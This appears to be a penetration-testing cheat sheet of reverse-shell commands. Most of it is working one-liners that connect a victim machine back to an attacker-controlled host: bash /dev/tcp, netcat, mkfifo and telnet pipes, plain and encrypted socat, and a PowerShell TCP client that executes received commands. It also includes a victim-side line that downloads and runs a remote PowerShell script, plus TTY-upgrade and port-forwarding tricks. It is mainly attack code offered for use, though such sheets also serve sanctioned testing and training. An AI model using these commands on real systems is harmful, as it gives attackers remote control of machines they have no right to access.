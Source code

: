 ## Linux fully interactive tty

```bash
python -c 'import pty; pty.spawn("/bin/bash")' || python3 -c 'import pty; pty.spawn("/bin/bash")'
# CTRL + Z
stty raw -echo
fg
reset
export SHELL=/bin/bash && export TERM=xterm-256color
# open up a new terminal and run the below to get the stty size command to paste
size=$(stty size); rows=$(echo $size | cut -d' ' -f1); cols=$(echo $size | cut -d' ' -f2); echo "stty rows $rows columns $cols"
```

## bash: normal shell
```bash
bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1
```
## bash: non-blocking shell
```bash
bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1 &
```
## bash: using `exec` 
```bash
exec 5<>/dev/tcp/<LHOST>/<LPORT>; cat <&5 | while read line; do $line 2>&5 >&5; done
```
## Bash/Netcat:
```bash
nc -nv <LHOST> <LPORT> -e /bin/bash
```
## bash: mkfifo:
```bash
rm /tmp/pipe; mkfifo /tmp/pipe; /bin/sh -i < /tmp/pipe 2>&1 | nc <LHOST> <LPORT> > /tmp/pipe; rm /tmp/pipe
```
## bash: mknod:
```bash
rm /tmp/pipe; mknod /tmp/pipe p 2>/dev/null && nc <LHOST> <LPORT> 0</tmp/pipe | /bin/bash 1>/tmp/pipe; rm /tmp/pipe
```
## Bash UDP
```bash
sh -i >& /dev/udp/<LHOST>/<LPORT> 0>&1
```
## Telnet
```bash
rm /tmp/pipe; mknod /tmp/pipe p && telnet <LHOST> <LPORT> 0</tmp/pipe | /bin/bash 1>/tmp/pipe; rm /tmp/pipe
```
---
## socat: reverse shell (with forking and address reuse)
### on attacker
```bash
socat -d -d TCP4-LISTEN:<LPORT>,reuseaddr,fork STDOUT
```
### on victim
```bash
socat TCP4:<LHOST>:<LPORT> EXEC:/bin/bash
```
**OR**
```bash
nc -nv <LHOST> <LPORT> -e /bin/bash
```
## socat: encrypted reverse shell (with forking and address reuse)
### step #1: on attacker machine, generate a create a key and a certificate associated with it.
```bash
openssl req -newkey rsa:2048 -nodes -keyout socat.key -x509 -days 1000 -out socat.crt
```
### step #2: on attacker machine,create a pem file from the key and crt files
```bash
cat socat.key socat.crt > socat.pem
```
### step #3: on attacker machine, listen on a port of your choice
```bash
socat -d -d OPENSSL-LISTEN:<LPORT>,cert=socat.pem,verify=0,reuseaddr,fork STDOUT
```
### step #4: on the victim, send back a bash shell
```bash
socat OPENSSL:<LHOST>:<LPORT>,verify=0, EXEC:/bin/bash
```
## socat: encrypted file transfer
### on machine hosting the file:
```bash
socat -d -d OPENSSL-LISTEN:<LPORT>,cert=socat.pem,verify=0,reuseaddr,fork file:file.txt
```
### on machine receiving the file:
```bash
socat OPENSSL:<LHOST>:<LPORT>,verify=0 file:file.txt,create
```
## socat: port forwarding
### scenario: if web port port 8000 is only listening locally on a machine that has socat. we can bind it to the outside on port 1234 and expose it to the outside:
```bash
socat TCP-LISTEN:1234,fork,reuseaddr, tcp:127.0.0.1:8000 &
```
### if we curl the address on port 1234
```bash
curl http://192.168.145.131:1234/index.html
```
### we get a response
```
<h1>hosted only internally</h1>
```
---

## Powershell reverse shell
```powershell
$lhost = '<LHOST>'
$lport = <LPORT>
$client = New-Object System.Net.Sockets.TCPClient($lhost,$lport);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
	$sendback = (iex $data 2>&1 | Out-String );
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush();
}
$client.Close();
```

## Windows better tty using `rlwrap`
1. install rlwrap using
```bash
apt install rlwrap
```
2. using rlwrap before your standard listener
```bash
rlwrap nc -lvnp <LPORT>
```

## Windows fully interactive (Windows 10 / Windows Server 2019 version 1809)
### on attacker machine:
```bash
stty raw -echo; (stty size; cat) | nc -lvnp <LPORT>
```
### on victim machine:
```powershell
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell <LHOST> <LPORT>
```